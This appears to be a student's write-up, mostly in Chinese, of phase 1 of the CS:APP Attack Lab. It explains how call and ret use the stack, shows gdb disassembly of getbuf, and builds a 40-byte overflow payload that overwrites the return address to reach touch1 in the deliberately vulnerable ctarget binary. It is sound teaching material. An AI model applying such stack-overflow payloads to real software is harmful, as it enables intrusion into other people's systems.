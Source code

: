 ## 实验说明
Note: This is the 64-bit successor to the 32-bit Buffer Lab. Students are given a pair of unique custom-generated x86-64 binary executables, called targets, that have buffer overflow bugs. One target is vulnerable to code injection attacks. The other is vulnerable to return-oriented programming attacks. Students are asked to modify the behavior of the targets by developing exploits based on either code injection or return-oriented programming. This lab teaches the students about the stack discipline and teaches them about the danger of writing code that is vulnerable to buffer overflow attacks.

## 实验准备
注意自己运行的话，要加上--q选项。
gdb 设置参数

```
(gdb) set args -q
```

查看断点
```
(gdb) i breakpoints
Num     Type           Disp Enb Address            What
1       breakpoint     keep y   0x00000000004011ad in main at main.c:97
        breakpoint already hit 1 time
3       breakpoint     keep y   0x0000000000401351 in main at /usr/include/x86_64-linux-gnu/bits/stdio2.h:105
```

## 实验过程
### phase_1
首先，进行注入式攻击的前提是了解过程调用时堆栈的变化过程。

将控制从函数P转移到函数Q时，需要简单地把程序计数器(PC)设置为Q的代码的起始位置。不过，当稍后从Q返回的时候，处理器必须记录好它需要继续P的执行的代码位置。在x86-64机器中，这个信息是用指令```call Q```调用Q来记录的。call指令将当前的指令地址A压入栈中，并将PC设置为Q的起始位置。压入堆栈中的地址A被称为返回地址，是紧跟在call指令后面那条指令的地址。对应的指令ret会从栈中弹出地址A，并把PC设置为A。

所以注入式攻击的实质，就是输入的字符串长度超过了缓存区的长度，并把rsp栈中的返回地址给覆盖掉，这样就可以操控程序被攻击代码所接管。

首先，我们进入test函数，并运行至调用```getbuf```函数前。在调用之前，首先我们检查一下rsp处栈的内容:
```
Dump of assembler code for function test:
   0x0000000000401968 <+0>:     sub    $0x8,%rsp
   0x000000000040196c <+4>:     mov    $0x0,%eax
=> 0x0000000000401971 <+9>:     callq  0x4017a8 <getbuf>
   0x0000000000401976 <+14>:    mov    %eax,%edx
   0x0000000000401978 <+16>:    mov    $0x403188,%esi
   0x000000000040197d <+21>:    mov    $0x1,%edi
   0x0000000000401982 <+26>:    mov    $0x0,%eax
   0x0000000000401987 <+31>:    callq  0x400df0 <__printf_chk@plt>
   0x000000000040198c <+36>:    add    $0x8,%rsp
   0x0000000000401990 <+40>:    retq
End of assembler dump.

(gdb) disass
Dump of assembler code for function test:
   0x0000000000401968 <+0>:     sub    $0x8,%rsp
   0x000000000040196c <+4>:     mov    $0x0,%eax
=> 0x0000000000401971 <+9>:     callq  0x4017a8 <getbuf>
   0x0000000000401976 <+14>:    mov    %eax,%edx
   0x0000000000401978 <+16>:    mov    $0x403188,%esi
   0x000000000040197d <+21>:    mov    $0x1,%edi
   0x0000000000401982 <+26>:    mov    $0x0,%eax
   0x0000000000401987 <+31>:    callq  0x400df0 <__printf_chk@plt>
   0x000000000040198c <+36>:    add    $0x8,%rsp
   0x0000000000401990 <+40>:    retq
End of assembler dump.
(gdb) x/16xw $rsp
0x5561dca8:     0x00000002      0x00000000      0x00401f24      0x00000000
0x5561dcb8:     0x00000000      0x00000000      0xf4f4f4f4      0xf4f4f4f4
0x5561dcc8:     0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4
0x5561dcd8:     0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4
```
然后，我们si进入```getbuf```函数，并检查此时堆栈的值，可以看到调用前的地址0x0040197已经入栈:
```
(gdb) disass
Dump of assembler code for function getbuf:
=> 0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq
End of assembler dump.
(gdb) x/16xw $rsp
0x5561dca0:     0x00401976      0x00000000      0x00000002      0x00000000
0x5561dcb0:     0x00401f24      0x00000000      0x00000000      0x00000000
0x5561dcc0:     0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4
0x5561dcd0:     0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4
```
缓存区的大小被设置为0x28,也就是当我们输入的数据超过这个范围后，就可以改写返回地址了。这里要注意，栈的增长方向是向下的，同时我们的数据是小端法表示的，所以对于touch_1的地址，我们输入字符串的末尾字符应为00 c0 17 40。通过实验提供的工具函数，我们得到我们攻击字符的表达
```
xxxx(40个字符)004017c0
```
这里用shell来生成这串字符，顺便练了练shell脚本
```
echo -ne '' > exploit.txt; for i in {1..10}; do echo -ne '63 63 63 63 ' >> exploit.txt; done; echo -ne 'c0 17 40 00' >> exploit.txt;
./hex2raw < exploit.txt > exploit_raw.txt
./ctarget -q -i exploit_raw.txt
```

实验结果
```
./ctarget -q -i exploit_raw.txt
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 C0 17 40 00
```